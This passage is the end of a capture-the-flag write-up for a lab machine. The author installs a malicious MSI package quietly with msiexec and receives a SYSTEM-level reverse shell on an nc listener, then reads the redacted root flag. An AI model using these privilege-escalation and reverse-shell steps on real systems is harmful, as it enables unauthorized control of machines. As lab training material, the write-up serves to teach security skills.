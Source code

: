     
    C:\ProgramData>msiexec /quiet /qn /i rev.msi
    

This returns nothing, but there’s a shell at my listening `nc`:

    
    
    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 61878
    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>whoami
    nt authority\system
    

I can grab the root flag from the administrator’s desktop:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    82f9ddad************************
    

[](/2021/08/07/htb-love.html)

